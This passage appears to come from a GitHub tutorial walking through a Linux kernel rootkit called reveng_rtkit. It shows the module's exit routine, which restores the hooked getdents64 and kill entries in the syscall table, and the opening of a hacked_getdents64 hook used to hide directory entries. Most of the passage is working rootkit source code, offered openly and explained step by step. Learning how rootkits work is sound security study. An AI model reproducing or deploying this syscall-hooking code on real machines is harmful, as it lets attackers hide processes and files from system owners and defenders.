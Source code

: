 ```c

	protect_memory();

	return 0;

}

// ========================== Exit Function ====================

static void __exit rootkit_exit(void)
{
	printk(KERN_INFO "\n=========================================\n");

	unprotect_memory();
	printk(KERN_INFO "\t\t\t\t\t\t back to normal");

	// Editing the sycall table back to normal, i.e. with original syscalls: "getdents64" and "kill" syscalls.
	__sys_call_table[__NR_getdents64] = (unsigned long) orig_getdents64;
	__sys_call_table[__NR_kill] = (unsigned long) orig_kill;

	protect_memory();

	printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
	printk(KERN_INFO "=================================================\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("reveng007");
MODULE_DESCRIPTION("Modifying Stage of reveng_rtkit");
MODULE_VERSION("1.0");
```
   This code is same as before (the kill syscall portion), just `__NR_getdents64` is added (new), [source](https://elixir.bootlin.com/linux/v5.11/source/arch/arm64/include/asm/unistd32.h#L447). 

   Let us go step by step from `Test_hook_getdents64.h` file:
```c
// Test_hook_getdents64.h

#include <linux/slab.h>         /* kmalloc(), kfree(), kzalloc() */
#include <linux/fdtable.h>      /* Open file table structure: files_struct structure */
#include <linux/proc_ns.h>      /* For `PROC_ROOT_INO` */

// =============================================================================

#include <linux/dirent.h>	/* struct dirent refers to directory entry. */

struct linux_dirent {
    unsigned long   d_ino;		/* inode number */
    unsigned long   d_off;		/* offset to the next dirent */
    unsigned short  d_reclen;	/* length of this record */
    char            d_name[1];	/* filename */
};

static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs)
{
/* Dependent registers:
* rax: contains syscall ids = 0xd9
* rdi: which contains the file descriptor = unsigned int fd
* rsi: which contains the passed arguments = struct linux_dirent64 __user *dirent; "__user" => this pointer resides in user space
```
